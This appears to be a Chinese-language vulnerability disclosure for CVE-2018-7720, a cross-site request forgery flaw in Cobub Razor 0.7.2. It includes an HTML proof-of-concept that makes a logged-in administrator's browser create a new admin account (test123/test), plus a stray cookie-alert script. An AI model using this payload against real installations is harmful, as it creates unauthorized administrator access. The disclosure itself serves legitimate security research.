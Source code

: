 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|Cobub Razor 0.7.2存在跨站请求伪造漏洞|2018-03-06|Kyhvedn（yinfengwuyueyi@163.com、kyhvedn@5ecurity.cn）|[http://www.cobub.com/](http://www.cobub.com/) | [https://github.com/cobub/razor/](https://github.com/cobub/razor/) |0.7.2 | [CVE-2018-7720](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7720)|  

#### 漏洞概述  

> Cobub Razor 0.7.2存在跨站请求伪造漏洞，管理员登陆后访问特定页面可增加管理员账号。保存如下利用代码为html页面，打开页面将增加test123/test的管理员账号。  

### POC实现代码如下：  

> 利用代码如下：
``` html
<body>
  <script>alert(document.cookie)</script>
    <form action="http://localhost/index.php?/user/createNewUser/" method="POST">
      <input type="hidden" name="username" value="test123" />
      <input type="hidden" name="email" value="test&#64;test123&#46;test" />
      <input type="hidden" name="password" value="test" />
      <input type="hidden" name="confirm&#95;password" value="test" />
      <input type="hidden" name="userrole" value="3" />
      <input type="hidden" name="user&#47;ccreateNewUser" value="�&#136;&#155;�&#187;�" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```